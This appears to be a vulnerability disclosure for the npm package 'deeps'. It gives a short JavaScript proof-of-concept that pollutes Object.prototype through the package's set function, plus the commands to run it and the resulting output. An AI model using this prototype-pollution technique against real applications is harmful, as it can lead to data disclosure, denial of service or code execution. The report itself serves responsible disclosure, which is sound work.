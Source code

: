 # Description

`deeps` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { set } = require('deeps')
console.log(`Before: ${{}.polluted}`)
set(constructor.prototype, 'polluted', true)
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i deeps # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

